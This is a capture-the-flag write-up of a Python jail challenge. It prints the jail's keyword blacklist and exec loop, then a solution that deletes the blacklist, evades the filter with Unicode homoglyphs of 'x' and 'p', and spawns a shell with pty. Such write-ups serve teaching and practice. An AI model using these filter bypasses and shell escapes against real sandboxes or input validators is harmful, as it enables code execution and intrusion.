 <h1>Writeup for Big Blacklist:</h1>



Big Blacklist was a PyJail Challenge in which we were given a Netcat server and port , When we connect to it we Get the source code of the Jail and a Prompt.

Jail source Code :
```py
#!/usr/bin/env python3
blacklist = ["/","0","1","2","3","4","5","6","7","8","9","setattr","compile","globals","os","import","_","breakpoint","exit","lambda","eval","exec","read","print","open","'","=",'"',"x","builtins","clear"]
print("="*25)
print(open(__file__).read())
print("="*25)
print("Welcome to the jail!")
print("="*25)

for i in range(2):
        x = input('Enter command: ')
        for c in blacklist:
                if c in x:
                        print("Blacklisted word found! Exiting!")
                        exit(0)
        exec(x)
```
As we can see thats a big blacklist.

Solution:

To break the jail i used the following approach :

```
del blacklist;eₓec(input())
blacklist = []
import pty; pty.spawn("/bin/sh")
```

`del blacklist` : Delete's the blacklist.

`eₓec(input())` : Invokes an input so that i can re-assign an empty blacklist[] array , If i dont re-assign the array the for loop will break as the blacklist variable will not be there
                  and as you can see the 'ₓ' in eₓec is not a standard x its a diffrent latin-unicode character but python interprets it as 'x' , This is too bypass the the blacklist of 'x' and 'exec'.
                  
`import pty;pty.spawn("/bin/sh")` : Now that the blacklist[] array is empty we can use a standard python one-liner shell command.

[Link to Unicode Character X](https://www.compart.com/en/unicode/U+2093)


Also you can bypass the `print` blacklist using the unicode ₚ

[Link to Unicode Character P](https://www.compart.com/en/unicode/U+209A)

This opens many opportunites for diffrent writeups as there might be many different unicode characters that could be used.
